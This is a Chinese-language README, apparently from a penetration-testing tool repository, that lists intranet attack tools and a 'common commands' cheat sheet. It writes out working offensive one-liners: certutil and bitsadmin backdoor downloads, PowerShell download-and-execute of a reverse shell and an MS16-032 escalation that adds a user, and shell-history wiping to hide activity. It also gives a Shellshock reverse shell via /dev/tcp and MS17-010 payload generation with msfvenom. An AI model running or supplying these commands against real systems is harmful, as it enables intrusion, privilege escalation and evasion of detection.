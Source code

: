 ﻿
Intranet Penetration

整理一些常用的内外网渗透测试工具

PHPoxy 通过PHP脚本运行一个可以访问内网机器的Web代理。

SocksCap  socks5代理客户端

XX-Net    科学上网利器 

phpsocks5 通过php脚本创建socks5代理服务

socks     包含创建socks5代理服务的python脚本，以及ssocks 内网穿透神器。

Cain      内网嗅探神器

F-NAScan  网络资产信息扫描

X-Sniff   网络嗅探小工具

asocks5  创建socks5代理服务的小公举

bc.pl    反弹bash shell的perl脚本

bypassUAC

http     创建HTTP服务

l.7z     lcx的slave版本，免杀

n.7z     nc.exe

smsniff2   抓包工具

wget     win版wget

get.7z  get64.7z  mimikatz无交互版 直接shell下运行 get.7z    (不是压缩文件)

### 常用命令

1、开web

python2 -m SimpleHTTPServer python3 -m http.server

2、download backdoor

certutil.exe -urlcache -split -f http://xxxx/g.jpg

bitsadmin /rawreturn /transfer getfile http://xxxx/g.jpgc:p.7z


3、tty

python -c 'import pty; pty.spawn("/bin/sh")'


4、powershell

root@kali:/tmp# wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

root@kali:/tmp# wget https://gist.githubusercontent.com/intrd/6dda33f61dca560e6996d01c62203374/raw/babf9a6afd23bb17a89bb3415099459db7bd25cf/ms16_032_intrd_mod.ps1

powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://10.1.x.x:8000/Invoke-PowerShellTcp.ps1','Invoke-PowerShellTcp.ps1')

powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://10.1.x.x:8000/ms16_032_intrd_mod.ps1','ms16_032_intrd_mod.ps1')


IEX (New-Object Net.WebClient).DownloadString('http://10.1.x.x:8000/ms16_032_intrd_mod.ps1');Invoke-MS16-032 "-NoProfile -ExecutionPolicy Bypass -Command net user a xxxx /ad"


5、不记录his

unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null; export HISTSIZE=0; export HISTFILESIZE=0

6、破壳漏洞

curl --user-agent '() { ignored;};/bin/bash -i >& /dev/tcp/xxx/3389 0>&1' http://xxx/cgi-bin/admin.cgi

7、ms17010

https://www.exploit-db.com/exploits/42315

msfvenom -p windows/shell/reverse_tcp lhost=xxx lport=3389 -f exe-service > f.exe

smb_send_file(smbConn, '/opt/17010/f.exe', 'C', '/f.exe') service_exec(conn, r'c:\\f.exe')

